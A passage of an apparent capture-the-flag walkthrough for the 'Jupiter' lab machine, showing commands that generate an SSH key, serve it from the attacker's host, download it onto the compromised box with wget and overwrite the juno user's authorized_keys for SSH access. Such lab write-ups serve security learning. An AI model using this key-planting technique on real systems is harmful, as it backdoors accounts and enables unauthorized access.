 We have access to the authorize_keys file (SSH authorized public key), so lets generate a public key and change the file

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Jupiter-10.10.11.216]
└─$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:3N3D7AaVxrZWk0XhgKMKFt2jGhnc3U6sm9/dyhxWmrg kali@kali
The key randomart image is:
+---[RSA 3072]----+
|    . o o o .. o+|
|     + o + * .o.o|
|      + . * . *+.|
|     = o + o B o.|
|    . + S + o B .|
|     . . o   = = |
|          . o O .|
|           . B o.|
|            E +. |
+----[SHA256]-----+
┌──(kali㉿kali)-[~/Documents/Boxes/Jupiter-10.10.11.216]
└─$ cd ~/.ssh                               
┌──(kali㉿kali)-[~/.ssh]
└─$ ls
id_rsa  id_rsa.pub  known_hosts  known_hosts.old
┌──(kali㉿kali)-[~/.ssh]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.216 - - [28/Aug/2023 17:49:00] "GET /id_rsa.pub HTTP/1.1" 200 -

----------------

bash-5.1$ wget http://10.10.14.12/id_rsa.pub
--2023-08-28 15:48:59--  http://10.10.14.12/id_rsa.pub
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 563 [application/vnd.exstream-package]
Saving to: ‘id_rsa.pub’

id_rsa.pub          100%[===================>]     563  --.-KB/s    in 0s      

2023-08-28 15:49:00 (37.7 MB/s) - ‘id_rsa.pub’ saved [563/563]

bash-5.1$ ls
id_rsa.pub
bash-5.1$ mv id_rsa.pub authorized_keys
```

So now we can log in as juno user with SSH